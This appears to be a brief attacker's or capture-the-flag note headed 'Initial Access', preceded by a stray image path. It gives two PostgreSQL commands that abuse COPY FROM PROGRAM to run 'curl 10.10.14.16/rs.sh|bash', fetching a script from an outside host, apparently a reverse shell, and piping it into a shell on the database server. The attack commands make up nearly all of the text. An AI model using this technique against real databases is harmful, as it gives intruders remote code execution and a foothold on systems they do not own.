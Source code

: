# Initial Access
- postgresql > `CREATE TABLE cmd_exec(cmd_output text);`
- postgresql > `COPY cmd_exec FROM PROGRAM 'curl 10.10.14.16/rs.sh|bash';`
